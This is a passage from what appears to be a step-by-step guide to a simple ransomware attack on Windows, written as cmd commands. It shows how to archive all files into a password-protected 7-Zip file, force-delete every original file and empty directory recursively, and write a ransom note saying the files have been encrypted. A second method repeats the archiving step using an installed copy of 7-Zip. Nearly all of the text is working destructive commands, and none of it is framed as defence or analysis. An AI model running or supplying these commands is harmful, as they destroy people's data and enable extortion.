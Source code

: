 ### Step 4: Verify Archive
```cmd
%TEMP%\7z.exe t -pantai "encrypted_files.7z"
```

### Step 5: Delete Original Files
**WARNING: This permanently deletes files!**

```cmd
REM Delete all files except .7z archives
for /f "delims=" %F in ('dir /b /a-d /s ^| findstr /v /i "encrypted_files.7z"') do del /f /q "%F"
```

### Step 6: Delete Empty Directories
```cmd
for /f "delims=" %D in ('dir /b /ad /s ^| sort /r') do rd "%D" 2>nul
```

### Step 7: Create Ransom Note
```cmd
echo ============================================================================ > README_IMPORTANT.txt
echo YOUR FILES HAVE BEEN ENCRYPTED >> README_IMPORTANT.txt
echo ============================================================================ >> README_IMPORTANT.txt
echo. >> README_IMPORTANT.txt
echo All your files have been encrypted. >> README_IMPORTANT.txt
echo Archive: encrypted_files.7z >> README_IMPORTANT.txt
echo Password: antai >> README_IMPORTANT.txt
echo ============================================================================ >> README_IMPORTANT.txt
```

---

## Method 2: Using Installed 7-Zip

If 7-Zip is already installed on the system:

### Step 1: Set 7-Zip Path
```cmd
set "SEVENZIP=C:\Program Files\7-Zip\7z.exe"
```

**Or for 32-bit systems:**
```cmd
set "SEVENZIP=C:\Program Files (x86)\7-Zip\7z.exe"
```

### Step 2: Create Encrypted Archive
```cmd
"%SEVENZIP%" a -t7z -m0=lzma2 -mx=9 -mfb=64 -md=32m -ms=on -mhe=on -pantai "encrypted_files.7z" "*" -r -x!encrypted_files.7z -xr!*.7z
```
